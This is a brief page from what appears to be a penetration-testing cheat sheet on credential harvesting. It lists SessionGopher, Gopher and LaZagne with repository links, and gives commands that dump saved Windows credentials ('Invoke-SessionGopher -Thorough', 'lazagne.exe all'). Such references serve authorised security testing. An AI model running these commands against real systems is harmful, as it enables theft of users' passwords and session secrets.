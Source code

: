 # Credentials Harvesting




## Tools



### SessionGopher

* [https://github.com/Arvanaghi/SessionGopher](https://github.com/Arvanaghi/SessionGopher)

```
PS > Invoke-SessionGopher -Thorough
```



### Gopher

* [https://github.com/EncodeGroup/Gopher](https://github.com/EncodeGroup/Gopher)



### LaZagne

* [https://github.com/AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne)

```
Cmd > .\lazagne.exe all [-v]
Cmd > .\lazagne.exe windows [-v]
```

